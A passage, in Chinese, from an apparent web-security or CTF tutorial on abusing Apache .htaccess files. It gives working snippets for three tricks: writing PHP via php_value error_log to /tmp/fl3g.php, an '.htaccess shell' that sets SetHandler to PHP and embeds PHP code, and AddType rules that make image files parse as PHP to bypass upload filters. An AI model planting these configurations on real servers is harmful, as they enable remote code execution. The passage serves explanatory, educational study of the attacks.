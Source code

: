```
（5）
 php_value error_log /tmp/fl3g.php
 php_value error_reporting 32767

```

> 
用法六：<br/> （1）禁用拒绝规则，使.htaccess可访问（默认情况下，.htaccess是不可访问的）<br/> 编辑.htaccess文件，添加如下配置<br/> （2）直接使用.htaccess shell<br/> 例如下面这个.htaccess文件，首先设置了禁用拒绝规则，这样便可直接访问到.htaccess；接着用SetHandler将所有文件作为php解析，最后写入php代码，开头用#注释掉，这样便可成功解析.htaccess，然后解析php


```
(1)
&lt;Files ~ "^.ht"&gt;
    Require all granted
    Order allow,deny
    Allow from all
&lt;/Files&gt;

```

```
(2)
&lt;Files ~ "^.ht"&gt;
 Require all granted
 Order allow,deny
 Allow from all
&lt;/Files&gt;
SetHandler application/x-httpd-php
# &lt;?php phpinfo(); ?&gt;

```

> 
用法七：<br/> AddType可以指示文件管理系统，对指定后缀文件以选定的文件类型解析<br/> AddType media-type extension [extension] …<br/> 编辑.htaccess，内容为：<br/> 便会将以.a为后缀的文件解析为php


```
AddType application/x-httpd-php .a
AddType application/x-httpd-php png  jpg gif

```

## .htaccess在重定向中的利用

```
RewriteCond %{REQUEST_FILENAME} !-d
如果不是目录，才会执行下一条RewriteRule

RewriteCond %{REQUEST_FILENAME} !-f
如果不是文件，才会执行下一条RewriteRule

```
